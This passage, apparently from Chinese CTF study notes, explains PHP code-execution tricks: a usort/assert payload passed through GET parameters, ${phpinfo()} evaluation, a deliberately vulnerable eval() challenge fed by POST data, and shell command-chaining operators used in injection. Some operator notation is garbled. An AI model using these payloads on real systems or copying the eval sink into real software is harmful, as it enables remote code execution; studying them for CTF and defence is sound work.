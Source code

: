 **…$GET是php5.6引入的新特性。即将数组展开成参数的形式**
用法：

```php
1[]=phpinfo()&1[]=123&2[]=assert
```

大致过程：

大概过程就是，GET变量被展开成两个参数[‘phpinfo’, ‘123’]和assert，传入usort函数。usort函数的第二个参数是一个回调函数

assert，其调用了第一个参数中的phpinfo();

###### 10. ${}

​	中间的php代码将会被优先解析

```php
<?php
	highlight_file(__FILE__);
	${phpinfo()};
?>
```

**代码执行例题**
题目：要求 ：PHP版本 >= 5.5

```php
<?php
    highlight(__FILE__);
    $data = $_POST['data'];
    $code = " \$ret = strtolower(\"$data\"); " ;
    echo $code;
    eval($code);
    echo $ret;
?>
```

#### 利用方法

##### 拼接符

> ```php
> A;B			#先执行A，再执行B
> 
> A&B			#简单拼接，A B之间无制约关系
> 
> A|B			# 显示B的执行结果
> 
> A;B 			#前后都执行，无论前面真假，类似&
> 
> A&&B		# A执行成功，然后才会执行B
> 
> AllB			# A执行失败，然后才会执行B
> 
> cmd2$(cmd) : echo $(whoami) 或者 $(touch test.sh; echo 'ls' > test.sh)
> 
> 'cmd': 用于执行特定命令，如 ‘whoami’
> ```
>
> >(cmd) : <(ls)
> ><(cmd) : >(ls)

